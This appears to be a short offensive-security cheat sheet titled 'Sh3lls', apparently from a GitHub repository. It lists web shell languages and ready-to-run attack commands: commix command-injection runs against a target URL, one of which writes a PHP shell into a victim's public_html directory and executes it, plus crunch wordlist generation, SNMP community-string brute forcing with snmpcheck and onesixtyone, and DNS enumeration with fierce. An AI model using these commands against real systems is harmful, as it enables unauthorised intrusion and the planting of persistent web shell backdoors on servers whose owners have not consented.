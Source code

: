 # Sh3lls ...

### CON:

* `php`
* `aspx`
* `js`
* `cpp`

### ANY:

* `commix`

      commix.py -u "http://target.com/post.php?id=353548" --level 3 -v 1 --random-agent --batch --all
      commix.py -u "http://target.com/post.php" --cookie="COOKIE_HERE" --level 3 -v 1 --random-agent --batch --all
      commix.py -u "http://target.com/post.php" --data="POST HERE" --level 3 -v 1 --random-agent --batch --all
      commix.py -u "http://target.com/post.php" --level 3 -v 1 --random-agent --batch --all --cookie="" --data="POST" --file-write="/opt/backbox/shell/xt4t.php" --file-dest="/home/target_user_name_here/public_html/xt4t.php" --os-cmd="php -f /home/target_user_name_here/public_html/xt4t.php"

* `other`
      
      1: crunch 4 4 ad12 > randomA-D12.txt
      snmpcheck -c randomA-D12.txt -d IP
      onesixtyone -c randomA-D12.txt -d IP
      
      perl fierce.pl -dns target.com -wordlist hosts.txt
      
      
